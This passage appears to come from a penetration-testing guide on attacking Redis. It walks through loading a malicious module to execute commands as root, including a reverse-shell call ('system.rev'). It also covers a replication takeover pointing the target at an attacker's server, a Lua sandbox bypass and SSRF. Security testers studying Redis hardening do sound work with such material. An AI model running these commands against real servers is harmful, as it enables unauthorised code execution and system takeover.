 1. Following the instructions from [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) you can **compile a redis module to execute arbitrary commands**.
2. Then you need some way to **upload the compiled** module
3. **Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`
4. **List loaded modules** to check it was correctly loaded: `MODULE LIST`
5.  **Execute** **commands**:

    ```
    127.0.0.1:6379> system.exec "id"
    "uid=0(root) gid=0(root) groups=0(root)\n"
    127.0.0.1:6379> system.exec "whoami"
    "root\n"
    127.0.0.1:6379> system.rev 127.0.0.1 9999
    ```
6. Unload the module whenever you want: `MODULE UNLOAD mymodule`

### LUA sandbox bypass

[**Here**](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) you can see that Redis uses the command **EVAL** to execute **Lua code sandboxed**. In the linked post you can see **how to abuse it** using the **dofile** function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible. Anyway, if you can **bypass the Lua** sandbox you could **execute arbitrary** commands on the system. Also, from the same post you can see some **options to cause DoS**.

### Master-Slave Module

​The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```

## SSRF talking to Redis

If you can send **clear text** request **to Redis**, you can **communicate with it** as Redis will read line by line the request and just respond with errors to the lines it doesn't understand:

```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
